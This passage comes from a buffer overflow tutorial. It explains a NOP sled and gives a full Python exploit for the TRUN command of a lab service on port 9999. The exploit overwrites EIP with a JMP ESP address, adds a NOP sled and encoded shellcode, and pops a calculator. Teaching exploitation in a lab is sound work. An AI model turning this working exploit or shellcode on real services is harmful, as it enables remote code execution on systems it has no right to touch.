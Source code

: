 ```
"\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc"
"\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e";
```

We can now add this shellcode to our python script. 

We are also going to add something else, a NOP sled.

A NOP (No-OPeration) is a instruction that does nothing. It simply tells the CPU to skip this instruction and go to the next. When adding a bunch NOPs we create something called a NOP sled. We do this since we cant be certain where in memory we will jump to, so by adding these NOPs the CPU will just glide down the NOPs to our shellcode.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e"

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b"\x90"*32          # NOP sled
buff += b"%s" % shellcode   # add shellcode to buffer

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()
```

## Exploit

Now just run the script and if everything goes correctly we should be greated by a friendly calculator.

![popped](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_popped.png)